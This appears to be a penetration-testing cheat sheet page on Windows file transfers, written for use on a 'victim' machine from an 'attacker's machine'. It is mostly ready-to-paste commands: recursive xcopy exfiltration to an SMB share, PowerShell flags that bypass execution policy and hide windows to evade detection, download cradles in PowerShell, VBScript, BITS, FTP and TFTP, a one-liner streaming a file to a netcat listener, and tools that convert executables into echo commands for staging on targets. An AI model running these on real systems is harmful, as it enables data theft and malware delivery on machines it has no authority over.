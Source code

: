 ```yaml
---
layout: default
title: Windows
parent: File Transfers
---
```


# Windows File Transfers
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## SMB
Exfill files recursively
```powershell
xcopy /c /h /r /s /y <source> <smb destination>
```
- e.g. `C:\*`

---

## PowerShell
Running PowerShell commands/files
```powershell
powershell -ep bypass -nol -noni -nop -Command <command>
powershell -ep bypass -nol -noni -nop -File <file>
```
- `-ep` sets the default execution policy for the current session, but does not override the value set in the registry
- `-nol` hides the copyright banner at startup
- `-noni` does not present an interactive prompt to the user
- `-nop` does not load the Windows PowerShell profile
- Can additionally add `-w hidden` to hide the window
- Note; some detection just greps for these args

Paste into terminal to create `wget.ps1` script
```powershell
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >> wget.ps1
echo $url = "<url>" >> wget.ps1
echo $file = "<output file>" >> wget.ps1
echo $webclient.DownloadFile($url,$file) >> wget.ps1
```

```powershell
powershell -ep bypass -nol -noni -nop wget.ps1
```

One-liners (first is same as above pasted script)
```powershell
(New-Object System.Net.WebClient).DownloadFile(<url>, <output>)         # Fast, but no progress bar
(New-Object System.Net.WebClient).DownloadFileAsync(<url>, <output>)    # As above, but asynchronous
Invoke-WebRequest -Uri <url> -OutFile <output>                          # Easy, progress bar, but very slow
Start-BitsTransfer -Source <url> -Destination <output> [-Asynchronous]  # Fastest, asynchronous, progress bar, but BITS may not be enabled
```

PowerShell one-liner to send file to NetCat
```powershell
$h="<host>";$p="<port>";$data=Get-Content -Path "<file>";$tcp=New-Object System.Net.Sockets.TcpClient($h,$p);$w=New-Object System.IO.StreamWriter($tcp).GetStream();foreach($l in $data){$w.WriteLine($l)};$w.Flush();$w.Close();$tcp.Close();
```

---

## VBScript
Paste into terminal to create `wget.vbs` script
```powershell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

```powershell
cscript wget.vbs <url> <output>
```

---

## Convert File to Base64
Base 64 Encoding
```powershell
certutil -encode <input> <output>
[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("<UTF8 string>")) > <b64 output>
```

Base 64 Decoding
```powershell
certutil -decode <input> <output>
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<b64 string>")) > <UTF8 output>
```

---

## exe2hex (debug.exe or PowerShell)
```shell
python3 exe2hex.py -x <exe> [-b <bat output>] [-p <ps output>] [-cc]        # From file
cat <exe> | python3 exe2hex.py -s [-b <bat output>] [-p <ps output>] [-cc]  # From stdin
```
- Paste output into target terminal to create file on target machine
- `-b` output to bat file (uses `debug.exe`, only 32-bit OSes, no file size limit)
- `-p` output to ps file (supports 64-bit, is not a ps script, only calls ps at end)
- `-c` or `-cc` for compression level
- `-t` creates an Expect file to automate a Telnet session
- `-w` creates an Expect file to automate a WinEXE session
- When using over **Telnet** or **WinEXE**, 100+ lines can be unpredictable including incorrect ordering or character ommission:
    - Use [Expect](http://expect.sourceforge.net/); available on most distros `apt install expect`
    - Further details found here <https://github.com/g0tmi1k/exe2hex/blob/master/README.md>

---

## exe2bat (debug.exe)
- Only works on 32-bit systems and file must be at most 64kB
- If > 64kB, use a compression tool such as `upx`
```shell
upx --ultra-brute <file>
```

Convert .exe to series of echo commands using `exe2bat`, paste into target terminal to create file on target machine
```shell
wine exe2bat.exe <input exe> <output text file>  # Remove Wine if on Windows
```

---

## FTP
- Often enabled, but interactive so need to provide text file with FTP commands instead

Setup FTP server e.g. vsftpd, pureftpd or proftpd
```shell
vim /etc/vsftpd.conf  # anonymous_enable=YES
service vsftpd start  # Default anonymous directory is /srv/ftp or /var/ftp
```

Paste into victim terminal (anonymous : anonymous for anonymous login)
```powershell
echo open <ip> > ftp.txt
echo <username> >> ftp.txt
echo <password> >> ftp.txt
echo bin >> ftp.txt
echo GET <remote file> >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```

---

## TFTP
- Enabled by default up to Win 2003/XP
- UDP based, often blocked by corporate egress rules
- Non-interactive, easy to setup

```powershell
atftpd --daemon --port 69 <directory>  # Setup server on attacker's machine
tftp -i <ip> GET <remote file>  # On victim machine
```